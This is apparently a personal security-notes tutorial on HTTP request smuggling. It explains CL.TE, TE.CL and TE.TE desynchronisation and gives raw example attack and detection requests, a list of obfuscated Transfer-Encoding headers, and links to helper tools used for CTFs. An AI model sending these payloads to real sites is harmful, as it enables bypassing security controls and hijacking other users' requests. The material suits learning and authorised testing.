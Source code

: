 # HTTP Request Smuggling

HTTP request smuggling is a technique that is used to mess up the sequence of HTTP requests a website processes. These exploits are often critical in nature, as this can allow attackers to bypass security controls and gain access to sensitive data.&#x20;

## How it Works

When HTTP requests are sent to a server, the user sends requests to a front-end server, and then forward the traffic to the back-end. Typically, there are several requests sent over the same connection for maximizing efficiency. When HTTP requests are sent one after another, the receiving server parses the HTTP request headers **to determine where one request ends and the next one begins.**

It forms a queue like structure, and this can be represented like this:

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Request smuggling happens when attackers edit a single request to have another hidden request, which is then interpreted by the back-end as a separate request.&#x20;

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><em>Taken from Portswigger Web Security Academy</em></p></figcaption></figure>

Generally, HTTP request smuggling happens because of manipulation of the `Content-Length` or `Transfer-Encoding` headers. These headers count the length of the request sent differently.

* `Content-Length`
  * Self-explanatory, counts the length of the message in bytes
  * If we are sending a POST request with a parameter of `q=smuggle`, then the `Content-Length` header has a value of 9 as there are 9 characters.
* `Transfer-Encoding`
  * This header is used to specify that the message uses **chunked encoding**.&#x20;
  * It specifies that the message is sent in one or more chunks, and each chunk consists of the message, **terminated by with a chunk size of zero.**
  * Normally, browsers do not use chunked encoding, as they are normally used for **server responses.** Take note that it is possible to sent messages using this encoding as requests.
  * The message below has 1 chunk within it.

<pre class="language-http"><code class="lang-http">POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
<strong>
</strong><strong>b
</strong>q=smuggling
0
</code></pre>

Since the HTTP specification provides two different methods for specifying the length of HTTP messages, there can be conflicts in how they are processing messages. This happens a lot, as requests can be passed through multiple different servers, and these servers might not support chunked encoding due to a variety of reasons. The difference in behavior is what gives rise to this exploit.

As such, HTTP Request Smuggling attacks are different depending on how the front and backend servers process the length of requests.

### CL.TE

In this scenario, the front-end server uses the `Content-Length` header and the back-end uses the `Transfer-Encoding` header.&#x20;

To exploit this, we can send in a request like this:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 13
Transfer-Encoding: chunked

0

hello!!!
```

The front-end server processes the Content-Length header and determines that the request body only contains 13 bytes of data (inclusive of newlines to terminate request) and forwards this request. The back-end then sees the request using chunked encoding, this processing the first chunk, which is stated to be 0 length and terminates the request.&#x20;

The following bytes, the 'hello' portion is left unprocessed and the back-end server would treat this as **being  the start of the next request in sequence.** This means that it effectively prepends itself on the next request.&#x20;

Finding this vulnerablity would require us to send this request:

```http
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Transfer-Encoding: chunked

e
q=smuggle&x=
0

GET /404 HTTP/1.1
Foo: x
```

If the exploit works, then we would get a **status code 404 response,** indicating that the request was changed. If this method does not work, then we can change the request to have one character, **which would cause a time delay**.

### TE.CL

In this scenario, the back-end server uses the `Content-Length` header and the front-end uses the `Transfer-Encoding` header.&#x20;

We can now send this request:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
hello!!!
0
# \r\n\r\n goes here

```

The front-end uses TE to process the request, and sees that the first chunk of data is 8 bytes long. Then it sends this request to the backend, which uses CL. The back-end sees that the request body is 3 bytes long, which **is the newline and 8 character.** Then, the following bytes starting with the 'hello' portion is left unprocessed and the back-end server prepends this to the next request.

Finding this would require us to send this:

```http
POST / HTTP/1.1
Host: example.com
Content-Length: 3
Transfer-Encoding: chunked

8
GET /404 HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

a=
0
```

Same expected success reponse as earlier, we would want to test for either **time differences or an error response.**&#x20;

### TE.TE

In this scenario, both the front and back use `Transfer-Encoding` to process requests. The exploit here has to do with **obfuscating the header**. Here are some examples of changing the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

The point of changing the header is to find whether the front and back end server processes it differently. Sometimes, obfuscation would change how the back-end server processes it, while the front-end sees it without difference. Fuzzing and good enumeration is key to identifying the vulnerability.

Depending on how the website processes information, the rest of the attack takes the same form as the CL.TE or TE.CL exploits.&#x20;

## Useful Tools

When exploiting this, I tend to use a script that crafts the request automatically for me before I proceed. This is because counting the letters is very time-consuming.

{% embed url="https://github.com/kleiton0x00/HTTP-Smuggling-Calculator" %}

I use this tool above mainly for CTFs and HTB. **Take note that the tool above does not work with HTTPS, only HTTP.** Other tools include:

{% embed url="https://github.com/ariary/HTTPCustomHouse" %}

On top of that, I just use HackTricks for whatever other information that I need.&#x20;

{% embed url="https://book.hacktricks.xyz/pentesting-web/http-request-smuggling" %}
